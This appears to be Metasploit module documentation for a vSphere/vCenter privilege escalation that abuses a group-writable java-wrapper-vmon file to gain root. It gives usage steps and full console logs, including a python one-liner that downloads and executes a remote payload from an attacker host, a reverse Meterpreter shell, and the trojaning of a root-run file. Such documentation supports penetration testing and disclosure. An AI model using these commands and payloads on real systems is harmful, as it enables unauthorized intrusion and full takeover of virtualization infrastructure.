 ## Vulnerable Application

This module exploits a privilege escalation in vSphere/vCenter due to improper permissions on the
`/usr/lib/vmware-vmon/java-wrapper-vmon` file. It is possible for anyone in the
`cis` group to write to the file, which will execute as root on `vmware-vmon` service
restart or host reboot.

This module was successfully tested against VMware VirtualCenter 6.5.0 build-7070488.

The following versions should be vulnerable:
 - vCenter 7.0 before U2c
 - vCenter 6.7 before U3o
 - vCenter 6.5 before U3q

## Verification Steps

1. Start msfconsole
2. Obtain a shell on vCenter for a user in the `cis` group.
3. Do: `use exploit/linux/local/vcenter_java_wrapper_vmon_priv_esc`
4. Do: `set session #`
5. Do: `run`
6. Restart the host, or the service (`systemctl restart vmware-vmon.service`) with a user who has permission
7. You should get a root shell.

## Options

## Scenarios

### VMware VirtualCenter 6.5.0 build-7070488

Get initial shell (any vic group member will do, here we use vsphere-client)

```
[*] Processing java_wrapper.rb for ERB directives.
resource (java_wrapper.rb)> use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (java_wrapper.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (java_wrapper.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Using URL: http://2.2.2.2:8080/cFK3ylrNE9s
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://2.2.2.2:8080/cFK3ylrNE9s', context=ssl._create_unverified_context());exec(r.read());"
msf6 exploit(multi/script/web_delivery) > 
[*] 1.1.1.1    web_delivery - Delivering Payload (432 bytes)
[*] Sending stage (24380 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (2.2.2.2:4444 -> 1.1.1.1:59084) at 2022-11-20 10:45:06 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: vsphere-client
meterpreter > sysinfo
Computer        : localhost.ragedomain
OS              : Linux 4.4.8 #1-photon SMP Fri Oct 21 20:13:51 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 6710 created.
Channel 1 created.
vpxd -v
/usr/sbin/vpxd: line 34: ulimit: open files: cannot modify limit: Operation not permitted
sed: couldn't open temporary file /etc/vmware-vpx/sedXf9kV4: Permission denied
VMware VirtualCenter 6.5.0 build-7070488
^Z
Background channel 1? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
```

Conduct the priv esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/vcenter_java_wrapper_vmon_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > jobs -K
Stopping all jobs...

[*] Server stopped.
msf6 exploit(linux/local/vcenter_java_wrapper_vmon_priv_esc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /usr/lib/vmware-vmon/java-wrapper-vmon is writable and owned by cis group
[+] Original /usr/lib/vmware-vmon/java-wrapper-vmon backed up to /root/.msf4/loot/20221120104723_default_1.1.1.1_javawrappervmo_605726.txt
[*] Writing payload to /tmp/.BCOL6n
[*] Writing '/tmp/.BCOL6n' (250 bytes) ...
[*] Writing trojaned /usr/lib/vmware-vmon/java-wrapper-vmon
[*] Attempting to restart vmware-vmon service
[-] vmware-vmon service needs to be restarted, or host rebooted to obtain shell.
[*] Waiting 1800 seconds for shell
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[+] Deleted /tmp/.BCOL6n
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:32906) at 2022-11-20 10:47:52 -0500
[*] Replacing trojaned /usr/lib/vmware-vmon/java-wrapper-vmon with original

meterpreter > getuid
Server username: root
meterpreter > 
```
